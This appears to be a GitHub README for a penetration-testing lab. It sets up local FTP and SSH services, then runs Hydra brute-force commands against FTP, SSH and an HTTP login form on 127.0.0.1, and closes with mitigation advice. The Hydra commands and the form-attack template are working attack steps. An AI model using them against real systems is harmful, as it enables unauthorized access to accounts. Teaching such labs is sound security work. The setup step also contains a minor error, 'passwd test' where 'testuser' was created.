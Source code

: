 # 💥 Hydra Brute Force Attack Lab

## 🧪 Project Overview

This lab demonstrates how attackers exploit weak password configurations through brute-force attacks using **Hydra**, a powerful login cracker. It simulates real-world penetration testing on FTP, SSH, and HTTP login forms.

---

## 🎯 Key Objectives

* Understand brute force methodology
* Use Hydra to automate login attempts
* Target services with weak/default credentials
* Analyze results and recommend mitigation

---

## 🛠️ Tools & Environment

| Tool           | Purpose                |
| -------------- | ---------------------- |
| Kali Linux     | Attacking machine      |
| Hydra          | Brute force automation |
| vsftpd         | FTP server             |
| openssh-server | SSH server             |

---

## ⚙️ Step 1 – Environment Setup

### 🔧 A. Install Hydra

```bash
sudo apt update
sudo apt install hydra -y
```

### 📡 B. Setup Target Services

#### FTP Server (vsftpd)

```bash
sudo apt install vsftpd -y
sudo useradd -m testuser
sudo passwd test
sudo nano /etc/vsftpd.conf
```

Ensure the following settings:

```
local_enable=YES
write_enable=YES
chroot_local_user=YES
allow_writeable_chroot=YES
anonymous_enable=NO
```

Then restart:

```bash
sudo systemctl restart vsftpd
```

#### SSH Server

```bash
sudo apt install openssh-server -y
sudo systemctl start ssh
sudo systemctl enable ssh
```

---

## 📂 Step 2 – Prepare Wordlists

### 🔑 Password List `passwords.txt`

```
123456
password
admin
test
```

### 👤 User List `users.txt`

```
testuser
admin
root
```

---

## 🚀 Step 3 – Execute Hydra Brute Force

### 🧬 FTP Login

```bash
hydra -l testuser -P passwords.txt ftp://127.0.0.1
```

### 🛡 SSH Login

```bash
hydra -l testuser -P passwords.txt ssh://127.0.0.1
```

### 🌐 HTTP Login (POST form)

```bash
hydra -l testuser -P passwords.txt 127.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
```

Replace `/login`, `username`, `password`, and `incorrect` using browser dev tools or Burp Suite to match the form.

---

## 📊 Step 4 – Interpreting Results

Hydra outputs valid credentials in real time. Log success/failure, analyze login behavior, and determine if rate-limiting or lockout mechanisms are absent.

---

## 🔒 Recommendations & Mitigation

* Enforce **strong passwords** (12+ characters)
* Enable **account lockouts** after failed attempts
* Use **rate-limiting** and **2FA**
* Employ intrusion detection/prevention tools (e.g. Fail2Ban)

---

## ✅ Conclusion

This lab illustrates how weak credentials are easily exploited. Brute-force testing is a critical part of ethical hacking and red team exercises. Applying password policies and security controls dramatically reduces exposure.

> "Security is proactive. If you don't test it, attackers will."

---



## 🏷 Badges

![Hydra](https://img.shields.io/badge/Tool-Hydra-blue)
![Kali Linux](https://img.shields.io/badge/OS-Kali_Linux-red)
![Penetration Testing](https://img.shields.io/badge/Focus-Penetration_Testing-yellow)
![Brute Force](https://img.shields.io/badge/Technique-Brute_Force-orange)

---


